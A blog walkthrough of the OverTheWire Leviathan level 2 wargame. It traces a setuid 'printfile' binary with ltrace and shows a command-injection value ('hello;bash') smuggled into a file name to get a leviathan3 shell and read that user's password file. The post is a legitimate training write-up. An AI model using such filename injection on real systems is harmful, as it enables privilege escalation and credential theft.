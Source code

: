 ```yaml
---
title: Overthewire Leviathan Level 2
date: '2022-03-02 22:30:00'
author: Michael
categories: [overthewire, overthewire-leviathan]
tags: [overthewire, leviathan]
---
```


Solution for the Overthewire.org [Leviathan level 2](https://overthewire.org/wargames/leviathan/leviathan2.html){:target="\_blank"}

## Level Goal  

There is no information for this level, intentionally.

## Walkthrough 
Login to the server using the password obtained from the previous level [Leviathan level 1]({% post_url 2022-02-28-leviathan1 %}). 

username: `leviathan2` 

```ssh
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```

With no description given first thing we do is check what is in the home directory.

```console
leviathan2@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 7436 Aug 26  2019 printfile
-rw-r--r--  1 root       root        675 May 15  2017 .profile
leviathan2@leviathan:~$ 
```

There is a executable named `printfile` that will run with leviathan3 permissions.

When running the file we find out it takes a file name as it's argument.

```console
leviathan2@leviathan:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
```

Since it runs with `leviathan3` permissions we can try printing the password file leviathan3.

```console
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Using `ltrace` we can begin to see what the executable is doing.

```console
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                  = -1
puts("You cant have that file..."You cant have that file...
)                                                            = 27
+++ exited (status 1) +++
```

The first thing it does is call `access`. Access is used to check if the user has permission to access the given file, it also dereferences symbolic links so we cannot create a simlink to the password file. 

```
access() 
    checks whether the calling process can access the file pathname.  
    If pathname is a symbolic link, it is dereferenced.
```

So we have seen what happens when we do not have permission to read a file, what happens when we do have the correct permission.
We create a file `sayHello` and write 'hello' to the file.
When we run `printfile` on sayHello we get the text 'hello' back.

```console
leviathan2@leviathan:/tmp/mine2$ echo "hello" > sayHello
leviathan2@leviathan:/tmp/mine2$ ls
sayHello

leviathan2@leviathan:/tmp/mine2$ ~/printfile sayHello 
hello
```

Now we can use ltrace to dig deeper into what `printfile` is doing.


```console
leviathan2@leviathan:/tmp/mine2$ ltrace ~/printfile sayHello 
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("sayHello", 4)                                             = 0
snprintf("/bin/cat hello", 511, "/bin/cat %s", "sayHello")        = 14
geteuid()                                                         = 12002
geteuid()                                                         = 12002
setreuid(12002, 12002)                                            = 0
system("/bin/cat sayHello"hello
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                            = 0
+++ exited (status 0) +++
```

We can see that the file is 
- checking if we have permission to access the file
- getting the effective uid
- setting the effective uid to leviathan3
- using system to run /bin/cat on the given file


Since the input is being passed directly to `system` it is not performing any validation.
We can pass other commands by creating files with special characters like `;` which is used to enter multiple commands in the terminal.


```console
leviathan2@leviathan:/tmp/mine2$ touch 'hello;bash'

leviathan2@leviathan:/tmp/mine2$ ~/printfile 'hello;bash' 
/bin/cat: hello: No such file or directory
leviathan3@leviathan:/tmp/mine2$ 
```

Now we have a shell as `leviathan3`, we can read the password file.

```console
leviathan3@leviathan:/tmp/min2$ cat /etc/leviathan_pass/leviathan3
Ahd*******
```
